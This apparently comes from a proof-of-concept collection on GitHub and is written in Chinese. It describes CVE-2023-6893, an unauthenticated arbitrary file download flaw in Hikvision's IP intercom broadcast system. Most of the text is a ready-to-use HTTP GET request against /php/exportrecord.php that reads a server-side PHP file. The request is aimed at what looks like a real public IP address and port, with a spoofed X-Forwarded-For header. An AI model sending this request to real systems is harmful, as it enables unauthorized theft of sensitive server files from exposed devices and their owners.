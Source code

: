 ## 海康威视IP网络对讲广播系统任意文件下载漏洞CVE-2023-6893
IP网络对讲广播系统在3.0.3_20201113_RELEASE(HIK)版本中存在任意文件下载漏洞，未授权的攻击者能够通过/php/exportrecord.php文件读取任意文件内容，导致服务器的敏感信息泄露

## poc
```
GET /php/exportrecord.php?downtype=10&downname=C:\ICPAS\Wnmp\WWW\php\conversion.php HTTP/1.1
Host: 219.128.48.234:4080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 1.1.1.1
```

![image](../../images/45def3bd-0e18-42f5-96c6-2d53c7ebdf34.png)
